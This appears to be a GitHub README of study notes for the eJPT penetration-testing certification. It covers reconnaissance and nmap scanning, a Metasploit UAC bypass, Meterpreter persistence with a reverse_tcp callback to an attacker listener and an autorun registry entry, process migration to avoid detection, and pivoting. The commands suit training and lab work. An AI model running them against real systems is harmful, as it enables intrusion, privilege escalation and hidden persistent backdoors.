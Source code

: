 # eJPT
Some helps to pass eJPT
# Information Gathering
## Subdomain Enumeration
```
root@kali:~# sublist3r -v -d yahoo.com -w /usr/share/wordlists/
```
or we can use -b to bruteforce

we can enumerate the subdomains like FUZZ.thetoppers.htb with gobuster
```
gobuster vhost -u http://thetoppers.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```
# Footprinting & Scanning

## Ping Sweep
You can scan all network with nmap, -sn to disable port scan
```
root@kali:~# nmap -sn -n 10.142.111.0/24
```
but you can scanning entire network with fping
```
root@kali:~# fping -a -g 10.142.111.0/24 2> /dev/null
```
# Nmap
## OS Fingerprinting
```
nmap -Pn -A -O 10.10.10.10
```
## Quick scan
```
nmap -sC -sV -A -T4 10.10.10.10 --open
```
## Full scan
```
nmap -sC -sV -A -T4 -p- 10.10.10.10 --open
```

nmap vuln scan example:
--script-args=unsafe=1 is used if you don't want to "crash" the system.
```
nmap --script vuln --script-args=unsafe=1 -iL hosts.txt
```
# Spotting a firewall

If an nmap TCP scan identified a well-known service, such as a web server, but cannot detect the version, then there may be a firewall in place.

```
For example:
PORT    STATE  SERVICE  REASON          VERSION
80/tcp  open   http?    syn-ack ttl 64
```

Another example:

```
80/tcp  open   tcpwrapped 
```
“tcpwrapped” means the TCP handshake was completed, but the remote host closed the connection without receiving any data.

These are both indicators that a firewall is blocking our scan with the target!

Tips:

Use “–reason” to see why a port is marked open or closed
If a “RST” packet is received, then something prevented the connection - probably a firewall!

# httprint

httprint banner grabling:
```
httprint -P0 -s /usr/share/httprint/signatures.txt -h 10.10.10.15
```

# Metasploit
Start metasploit with

```
$ msfconsole
```
# Meterpreter
## Privileges Escalation
On windows machine
```
meterpreter> getsystem
```
if doesn't work, probably windows has UserControlAccess enabled,so:
```
meterpreter> run post/windows/gather/win_privs
```
look if is true, and then
```
meterpreter> background
msf exploit(handler)> search uac
```
```
msf exploit(handler)> use exploit/windows/local/bypassuac
msf exploit(handler)> sessions
msf exploit(handler)> set SESSION <n>
msf exploit(handler)> exploit
meterpreter> getsystem
```
## Persistence
```
meterpreter > run persistence -h

[!] Meterpreter scripts are deprecated. Try post/windows/manage/persistence_exe.
[!] Example: run post/windows/manage/persistence_exe OPTION=value [...]
Meterpreter Script for creating a persistent backdoor on a target host.

OPTIONS:

    -A        Automatically start a matching exploit/multi/handler to connect to the agent
    -L   Location in target host to write payload to, if none %TEMP% will be used.
    -P   Payload to use, default is windows/meterpreter/reverse_tcp.
    -S        Automatically start the agent on boot as a service (with SYSTEM privileges)
    -T   Alternate executable template to use
    -U        Automatically start the agent when the User logs on
    -X        Automatically start the agent when the system boots
    -h        This help menu
    -i   The interval in seconds between each connection attempt
    -p   The port on which the system running Metasploit is listening
    -r   The IP of the system running Metasploit listening for the connect back
```
We will configure our persistent Meterpreter session to wait until a user logs on to the remote system and try to connect back to our listener every 5 seconds at IP address 192.168.1.71 on port 443.
```
meterpreter > run persistence -U -i 5 -p 443 -r 192.168.1.71
[*] Creating a persistent agent: LHOST=192.168.1.71 LPORT=443 (interval=5 onboot=true)
[*] Persistent agent script is 613976 bytes long
[*] Uploaded the persistent agent to C:\WINDOWS\TEMP\yyPSPPEn.vbs
[*] Agent executed with PID 492
[*] Installing into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\YeYHdlEDygViABr
[*] Installed into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\YeYHdlEDygViABr
[*] For cleanup use command: run multi_console_command -rc /root/.msf4/logs/persistence/XEN-XP-SP2-BARE_20100821.2602/clean_up__20100821.2602.rc
meterpreter >
```
To verify that it works, we reboot the remote system and set up our payload handler.
```
meterpreter > reboot
Rebooting...
meterpreter > exit

[*] Meterpreter session 3 closed.  Reason: User exit
msf exploit(ms08_067_netapi) > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.1.71
LHOST => 192.168.1.71
msf exploit(handler) > set LPORT 443
LPORT => 443
msf exploit(handler) > exploit

[*] Started reverse handler on 192.168.1.71:443
[*] Starting the payload handler...
```
## Migrate PID to another PID to look less sus
```
meterpreter> getpid
meterpreter> ps -U SYSTEM //process with system privilege, choose one
meterpreter> migrate PID
```
# Pivoting
When we get access into a machine, we can check with ifconfig if there is another network which we couldn't access.
So let add the route to this network in msfconsole.
```
meterpreter> run autoroute -h
```
autoroute allow us to add a route to the network.
```
route add 192.69.228.0 255.255.255.0 1
```
for adding manually a route on msfconsole:

add //the command

subnet //subnet to connect

netmask //netmask of the subned

sid //meterpter session id

#SQLI
Intresting link with SQLI payloads: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass

